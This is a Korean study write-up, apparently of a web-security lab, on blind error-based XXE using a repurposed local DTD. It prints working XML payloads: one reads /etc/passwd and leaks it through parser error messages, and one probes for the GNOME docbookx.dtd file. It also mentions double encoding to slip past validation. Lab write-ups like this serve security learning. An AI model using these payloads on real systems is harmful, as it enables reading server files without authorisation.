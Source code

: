 위는 HTML인코딩이 두 번 들어가 있다. (밸리데이션 체크를 우회하기 위해서인 것으로 보인다.) HTML 디코딩해서 조금 더 보기 쉽게 바꾸면 다음과 같다. (HTML 디코딩에서 `&#x26;`은 `&`로, `&#x25;`는 `%`로 디코딩된다. `&#x27;`는 `'`이다.)

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY % error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
'>
%local_dtd;
]>
```

이 DTD는 다음 스텝을 수행한다. 

- `local_dtd` 라는 XML 매개변수 엔티티를 정의한다. 이 엔티티는 서버 파일 시스템에 존재하는 외부 DTD 파일의 내용을 포함한다. 
- 외부 DTD 파일에 이미 정의된 `custom_entity` 라는 XML 파라메터 엔티티를 재정의한다. 이 엔티티는 `/etc/passwd` 파일의 내용을 포함하는 오류 메세지를 트리거하기 위해 오류 기반 XXE 익스플로잇을 포함하도록 재정의된다. 
- `local_dtd` 엔티티를 사용하여 `custom_entity` 엔티티의 재정의된 값을 포함하여 외부 DTD가 해석되도록 한다. 그러면 원하는 오류 메시지가 생성된다. 

## 기존 DTD 파일을 찾아 재활용하기 (Locating an existing DTD file to repurpose)
이 XXE 공격은 서버 파일 시스템에서 기존 DTD를 재활용하는 것을 포함하므로 핵심 요구 사항은 적합한 파일을 찾는 것이다. 이는 매우 간단하다. 애플리케이션이 XML 파서에서 발생한 오류 메시지를 반환하기 때문에 내부 DTD 내에서 로드하려고 시도하는 것만으로 로컬 DTD 파일의 존재를 알 수 있다. 

예를 들어, GNOME 데스크톱 환경을 사용하는 Linux 시스템은 종종 `/usr/share/yelp/dtd/docbookx.dtd` 경로에 DTD 파일을 가지고 있다. 다음 XXE 페이로드를 제출하여 이 파일이 있는지 테스트할 수 있다. 파일이 없으면 오류가 발생한다. 

```xml
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/share/yelp/dtd/docbookx.dtd">
%local_dtd;
]>
```

일반적인 DTD 파일 목록을 테스트하여 존재하는 파일을 찾은 후에는 파일의 사본을 얻어서 내용을 확인하여 재정의할 수 있는 엔터티를 찾아야 한다. DTD 파일을 포함하는 많은 시스템이 오픈 소스이므로 대부분 인터넷 검색을 통해 파일의 내용을 알 수 있다. 

# 랩 개요
- 이 랩에서는 "Check stock" 기능을 통해 XML 을 삽입할 수 있다.그러나 결과를 볼 수는 없다. 
- 문제를 풀려면 에러를 발생시켜 에러 메세지에 /etc/passwd 파일의 내용을 포함하도록 한다. 
- 당신은 서버에 존재하는 DTD파일을 참조하여, 그 안에 있는 엔터티를 재정의할 필요가 있다. 
- 힌트: GNOME 데스크톱 환경을 사용하는 시스템은 종종 /usr/share/yelp/dtd/docbookx.dtd에 ISOamso라는 엔티티를 포함하는 DTD를 갖고 있다. 

```
This lab has a "Check stock" feature that parses XML input but does not display the result.

To solve the lab, trigger an error message containing the contents of the /etc/passwd file.

You'll need to reference an existing DTD file on the server and redefine an entity from it.

Hint
Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.
```
